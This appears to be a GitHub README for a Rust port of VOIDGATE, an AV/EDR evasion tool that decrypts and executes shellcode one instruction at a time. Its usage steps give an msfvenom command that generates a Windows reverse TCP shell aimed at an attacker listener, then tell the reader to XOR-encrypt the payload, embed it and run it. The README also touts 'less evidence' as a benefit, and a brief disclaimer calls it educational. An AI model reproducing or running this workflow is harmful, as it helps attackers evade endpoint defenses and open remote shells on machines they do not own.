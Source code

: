 # VOIDGATE (Rust Rewrite)

## 🔧 Overview

This is a **Rust rewrite** of the original [VOIDGATE](https://github.com/chvancooten/VOIDGATE) project, a technique designed to **bypass AV/EDR memory scanners** by decrypting and executing shellcode **one instruction at a time**.

This Rust version maintains the core logic and behavior of the original C++ implementation while taking advantage of Rust’s features:
- Safer memory management
- Cleaner and more maintainable code structure
- Less evidence

## 📄 Technical Details

The technique, limitations, and step-by-step usage are identical to the original project.  
For full technical explanation and background, please refer to:

👉 [Original VOIDGATE C++ Repository](https://github.com/vxCrypt0r/Voidgate)

## 🛠️ Usage

1. Generate your payload using `msfvenom`:
   ```bash
   msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.1.1 LPORT=443 -f raw > shell.asm
   ```
2. Encrypt the payload using an XOR encryption tool (use your own or adapt the original).

3. Insert the encrypted shellcode into the Rust project source.

4. Ensure the XOR key matches between encryptor and this project. (You can use random key)

5. Start a listener on your attack machine

6. Compile and run.
   ```bash
   cargo build --release 
   ```

## 📁 Project Structure
```
voidgate/
├── src/
│   ├── main.rs          # Core logic and VEH setup
├── Cargo.toml           # Rust package manifest
└── README.md
```

## ⚠️ Disclaimer
This project is provided for educational and research purposes only.
Do not use this tool in environments where you do not have explicit authorization.
Misuse of this tool may violate laws and is strictly discouraged.
